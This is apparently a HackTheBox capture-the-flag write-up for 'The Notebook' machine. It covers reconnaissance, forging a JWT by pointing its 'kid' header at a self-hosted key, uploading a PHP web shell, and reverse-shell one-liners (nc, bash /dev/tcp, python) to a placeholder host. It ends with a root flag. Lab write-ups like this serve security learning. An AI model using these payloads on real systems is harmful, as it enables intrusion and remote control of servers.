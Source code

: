 
    title: 'HackTheBox: The Notebook',
    author: 'Nawras M. Amin'
};

# HackTheBox: The Notebook | Writeup

<small>July 17th 2021 </small>e Medium (5/10 Avg)

## Initial Scan:

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-17 23:58 EDT
Nmap scan report for 10.10.10.230
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)kali
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/17%OT=22%CT=1%CU=30603%PV=Y%DS=2%DC=I%G=Y%TM=60F3A6E
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Useful notes:

-   Running Linux

Open Ports:

-   22: SSH
-   80: http with nginx v1.14.0
-   10010: rxapi

## Port 80

## FuFF Scan:

```bash
$ ffuf -u http://10.10.10.230/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt | tee ffuf_1.out

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.230/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

register                [Status: 200, Size: 1422, Words: 193, Lines: 33]
admin                   [Status: 403, Size: 9, Words: 1, Lines: 1]
login                   [Status: 200, Size: 1250, Words: 173, Lines: 31]
logout                  [Status: 302, Size: 209, Words: 22, Lines: 4]
:: Progress: [43003/43003] :: Job [1/1] :: 214 req/sec :: Duration: [0:02:06] :: Errors: 0 ::
```

## Webpage

-   Presence of a login page & a register page
    ![Untitled](/assets/20210718001500.png)

-   Does not seem to be an sqli injection after an initial sqlmap scan and some manual attack vectors testing

```bash
[01:05:58] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[01:05:58] [WARNING] HTTP error codes detected during run:
400 (Bad Request) - 257 times
```

-   Does not appear to be a XSS flaw to exploit at first. Might need to check more.
    ![Untitled](/assets/20210718003530.png)

-   The url also could have something meaningful:
    `http://10.10.10.230/7457c1fa-d329-48fe-b077-8d53e9240a4d/notes`

## Nginx vulnerabilities

Through Nmap we saw that we are running nginx version `1.14.0`

The [nginx changelist](http://nginx.org/en/CHANGES-1.14) shows that this version came out in 2018, which could mean that there has been some that were patched.

We can also see that in version `1.14.1`, there was a fix to 2 security flaws:

1. Security: when using HTTP/2 a client might cause excessive memory consumption (CVE-2018-16843) and CPU usage (CVE-2018-16844).

2. Security: processing of a specially crafted mp4 file with the ngx_http_mp4_module might result in worker process memory disclosure (CVE-2018-16845).

-   When searching through searchsploit:

```bash
$ searchsploit nginx
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nginx (Debian Based Distros + Gentoo) - 'logrotate' Local Privilege Escalation                                                        | linux/local/40768.sh
Nginx 0.6.36 - Directory Traversal                                                                                                    | multiple/remote/12804.txt
Nginx 0.6.38 - Heap Corruption                                                                                                        | linux/local/14830.py
Nginx 0.6.x - Arbitrary Code Execution NullByte Injection                                                                             | multiple/webapps/24967.txt
Nginx 0.7.0 < 0.7.61 / 0.6.0 < 0.6.38 / 0.5.0 < 0.5.37 / 0.4.0 < 0.4.14 - Denial of Service (PoC)                                     | linux/dos/9901.txt
Nginx 0.7.61 - WebDAV Directory Traversal                                                                                             | multiple/remote/9829.txt
Nginx 0.7.64 - Terminal Escape Sequence in Logs Command Injection                                                                     | multiple/remote/33490.txt
Nginx 0.7.65/0.8.39 (dev) - Source Disclosure / Download                                                                              | windows/remote/13822.txt
Nginx 0.8.36 - Source Disclosure / Denial of Service                                                                                  | windows/remote/13818.txt
Nginx 1.1.17 - URI Processing SecURIty Bypass                                                                                         | multiple/remote/38846.txt
Nginx 1.3.9 < 1.4.0 - Chuncked Encoding Stack Buffer Overflow (Metasploit)                                                            | linux/remote/25775.rb
Nginx 1.3.9 < 1.4.0 - Denial of Service (PoC)                                                                                         | linux/dos/25499.py
Nginx 1.3.9/1.4.0 (x86) - Brute Force                                                                                                 | linux_x86/remote/26737.pl
Nginx 1.4.0 (Generic Linux x64) - Remote Overflow                                                                                     | linux_x86-64/remote/32277.txt
PHP-FPM + Nginx - Remote Code Execution                                                                                               | php/webapps/47553.md

```

Nothing seems interesting in this list. Another deadend.

## JWT Exploitation

![Untitled](/assets/20210718033649.png)

## Foothold:

The vulnerability in the web application does not lie within the application itself, but rather the authentication. The app is using JWT to manage users and roles.

-   The "kid" parameter is used in the header of the token, and is pointing to a webserver hosting the private key. If we change this url, we can force the validation of the JWT by providing our own private key.
-   Generate a RSA private key: `ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key`
-   Setup a webserver to host the private key: `python3 -m http.server`
-   Forge the token using the private key and the information required. Set the `admin_cap` parameter of the payload to true:

```json
{
    "username": "xd",
    "email": "xd@xd.com",
    "admin_cap": true
}
```

Forged JWT:

```
    eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yOjgwMDAvand0UlMyNTYua2V5In0.eyJ1c2VybmFtZSI6InhkIiwiZW1haWwiOiJ4ZEB4ZC5jb20iLCJhZG1pbl9jYXAiOnRydWV9.CFkbzqfbYi3AKeZnBWvHJ1Zt_pIxD08HXEOcIgDA-6fifRq6GHE9k3SZckVeeqKh1DF6FwApNBovAPbE4_axEWNqROAC8bSMPPGyfj7rCOUggLl5jqHp7EBzQ-TfMlJ4pzIYVpk-L10U2lhvJFSKUZwnvtJqYIBirOLAOaDky7ETDYxagjaNWen196jHmXEvnf_SMcWLqEHssoBPPp7Dt_J8cOO0prqZ69W5_s6qrhcNPmSwAScM_GtKa35eAC2y2bOCPrOJvLqF3WWyIshZViytyJovtvW2uMms6I9J9KCnI2noXB6q9KsNb9bsBaQkyRINiiAFQcil6XnLdTWXXO6KvIrcmSnJ6a5fDHiBXncrDkN0yED981LLXtLO3XKBfDjjZZhgMzybWQIeGMKpd2soI_TH9IKvzhz3x6svDdYkvClzt0n8aCVJPpTZBxBwGXiILLhsZnmvr8xUs7GxjeauXqhV6HILUy9bYRuoQn29IyYSZooYUu00qtVhUfgrNlHTNonUy9zxks-WRWeJp6CzZzsh1pMXkQUz1OGIICuz1KX61n4eKSsK83lBM29QBXXk7zwk5HL5BiyxsWZaQhHmaHDu_mu9k5Oa-VBzLDyGqKWAKadPAo3e1CwnMjk4VR8n054aQ9UftTsgVqpkHmei5ajA9SVc08gMQfYwmI0
```

Change the cookies before making the request to the webpage to include the newly forged webtoken:

```bash
Cookies:
auth=<newly_forged_token>;
uuid=<your_uuid>
```

## RCE

Once we get access to the admin panel, we also get access to the admin notes.
A particular note here states:

![Untitled](/assets/20210718155856.png)

-   In the admin panel, we also have access to a file upload.
-   We can try to upload a webshell such as this one to possible get RCE, From this [gist](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

    ```php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    	if(isset($_GET['cmd']))
    	{
    		system($_GET['cmd']);
    	}
    ?>
    </pre>
    </body>
    </html>

    ```

    Surely enough the file goes through and we get RCE:
    ![Untitled](/assets/20210718160348.png)

-   We can then proceed to get a reverse shell with a command like this (but there are plenty of commands out there):

    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <RHOST> <RPORT> >/tmp/f
    ```

    -   Other possible ones:
        ```bash
        bash -i >& /dev/tcp/<RHOST>/<RPORT> 0>&1
        ```
        or
        ```python
        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<RHOST>",<RPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        ```

![Untitled](/assets/20210721211051.png)

Root flag:
2414e89cc5b4ae800f860afebcceaf9f

